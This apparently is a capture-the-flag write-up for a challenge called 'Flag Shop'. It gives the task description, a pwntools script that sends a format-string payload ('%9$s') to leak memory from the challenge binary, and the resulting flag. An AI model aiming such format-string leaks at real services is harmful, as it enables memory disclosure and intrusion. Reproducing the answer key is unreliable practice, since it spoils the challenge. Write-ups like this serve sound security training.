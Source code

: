 # Flag Shop

Solved by: @CapangJabba

## Question:
Welcome to the SECURE shop, where your goal is to explore the platform and uncover the secrets hidden within. After creating a user account, you'll interact with different features of the system. However, the admin panel remains restricted, and your challenge is to figure out how to access it.

## Solution:
```
from pwn import *

def con(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.GDB:
        return gdb.debug(exe, gdbscript='''
            b *0x5555555555fe
            c
            ''')
    else:
        return process(exe)


exe = './flagshop'
io = con()
elf = context.binary = ELF(exe, checksec = False)

context.log_level = 'info'

i = 9
io = process(level='error')
io.sendline(b'a')
payload = 'XXXXXXXXXXXXXXXXXXXXXXX%{}$s'.format(i).encode().ljust(34, b'A')
info(payload)
io.sendline(payload)
io.sendline(b'1')
io.interactive()
```

**Flag:** `sun{c@n_st1ll_r3@d_off_the_he@p_fr0m_st@ck_po!nters!}`
